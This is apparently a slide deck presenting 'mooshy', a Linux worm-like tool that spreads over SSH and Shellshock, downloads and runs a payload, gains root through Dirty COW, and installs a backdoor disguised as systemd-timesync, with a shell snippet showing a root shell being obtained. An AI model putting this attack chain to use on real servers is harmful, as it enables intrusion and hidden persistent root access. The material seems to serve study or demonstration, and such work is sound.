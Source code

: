 % mooshy
% [ˈmuʃi]

# Introduction

## mooshy?
* Infection and execution of arbitrary code as root
* Targets Linux servers
* Exploits several user and kernel space vulns
* Written in Go with a touch of C

## Components
* `mooshy`: front-end for infection
* `moosh`: payload
* `cow`: exploit implementing Dirty COW

# 1. Infection

## SSH
* `$ mooshy -ssh -addr ...` _or_ `-sshKnown`
* Uses regular SSH access
* Connects to `addr` or addresses in `known_hosts` file
* Copies and executes the `moosh` binary

## Shellshock
* `$ mooshy -shellShock -addr ...`
* CVE-2014-6271
* Sends a GET request to the specified `addr`
* Embedded script downloads `moosh` and executes it

# 2. Escalation

## Dirty COW
* CVE-2016-5195
* Gains root
* ![Dirty COW](https://upload.wikimedia.org/wikipedia/commons/1/1b/DirtyCow.svg)

# 3. Backdoor

## Installation
* Installs the backdoor on the system
* Disguised as `systemd-timesync` service
* Cleans up temporary files

## Invocation
```sh
$ mooshy -addr 192.168.56.102:22 # any open port
TCP socket opened on 0.0.0.0:42424
Received connection from 192.168.56.102:39414
root@cow:/# 
```

# Demo {data-background-image="https://media.giphy.com/media/Gr2A63jJz1fFe/giphy.gif"}

